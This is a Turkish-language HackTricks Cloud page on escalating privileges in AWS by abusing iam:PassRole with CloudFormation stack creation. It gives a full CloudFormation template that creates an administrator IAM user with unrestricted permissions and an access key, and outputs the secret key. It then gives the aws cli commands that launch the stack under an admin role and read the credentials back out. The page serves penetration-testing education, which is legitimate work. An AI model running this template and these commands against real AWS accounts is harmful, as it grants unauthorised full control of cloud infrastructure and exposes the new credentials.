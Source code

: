 # iam:PassRole, cloudformation:CreateStack, ve cloudformation:DescribeStacks

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bir saldırgan, örneğin **admin** kullanıcısı için **anahtarlar üreten bir cloudformation şablonu** kullanabilir:
```json
{
"Resources": {
"AdminUser": {
"Type": "AWS::IAM::User"
},
"AdminPolicy": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"Description" : "This policy allows all actions on all resources.",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"*"
],
"Resource": "*"
}]
},
"Users": [{
"Ref": "AdminUser"
}]
}
},
"MyUserKeys": {
"Type": "AWS::IAM::AccessKey",
"Properties": {
"UserName": {
"Ref": "AdminUser"
}
}
}
},
"Outputs": {
"AccessKey": {
"Value": {
"Ref": "MyUserKeys"
},
"Description": "Access Key ID of Admin User"
},
"SecretKey": {
"Value": {
"Fn::GetAtt": [
"MyUserKeys",
"SecretAccessKey"
]
},
"Description": "Secret Key of Admin User"
}
}
}
```
Sonra **cloudformation yığınını oluşturun**:
```bash
aws cloudformation create-stack --stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::[REDACTED]:role/adminaccess \
--capabilities CAPABILITY_IAM --region us-west-2
```
**Yığın oluşturulması için birkaç dakika bekleyin** ve ardından **kimlik bilgilerin saklandığı** yığının **çıktısını alın**:
```bash
aws cloudformation describe-stacks \
--stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
--region uswest-2
```
### Referanslar

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
